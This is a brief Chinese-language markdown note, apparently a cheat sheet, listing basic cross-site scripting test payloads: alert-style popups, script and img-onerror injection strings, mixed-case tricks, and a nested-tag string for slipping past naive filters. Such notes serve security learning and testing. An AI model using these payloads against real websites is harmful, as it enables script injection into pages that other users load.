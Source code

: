 ## 弹出框
1. alert()
2. confirm()
3. prompt()
## 代码块
1. ```<script>alert()</script>```
2. ```<img src=1 onerror=alert()>```
## 大小写
* SCRIPT、ScripT...
## 标签过滤
* ```<sc<script>alert()</script>ript></script>```s